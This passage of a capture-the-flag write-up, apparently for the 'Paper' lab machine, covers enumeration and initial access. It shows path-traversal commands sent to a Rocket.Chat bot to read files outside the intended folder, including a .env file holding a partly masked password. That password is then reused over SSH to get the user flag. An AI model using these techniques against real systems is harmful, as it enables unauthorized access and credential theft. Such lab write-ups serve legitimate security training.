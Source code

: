 ```

# Also, stop looking at my drafts. Jeez!
```

### User

Using this, we added new subdomain to `/etc/hosts`. After login, we can see the `general` group chat. We got following information:
* Bot - Just call the bot by his name and say help. His name is recyclops. For eg: sending "recyclops help" will spawn the bot and he'll tell you what you can and cannot ask him.
* Group is read only but direct message to `recyclops` is possible.

Executing following commands to enumerate the machine:
```
recyclops time
recyclops list / 
recyclops file /sale/portfolio.txt
recyclops list /../
# dwight user
recyclops file /../.hubot_history
recyclops list /../hubot/
recyclops file /../hubot/.env
 <!=====Contents of file /../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queen***********
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

Getting the user flag:
```
$ ssh dwight@office.paper
dwight@office.paper's password: Queen***********
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ cat user.txt 
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation
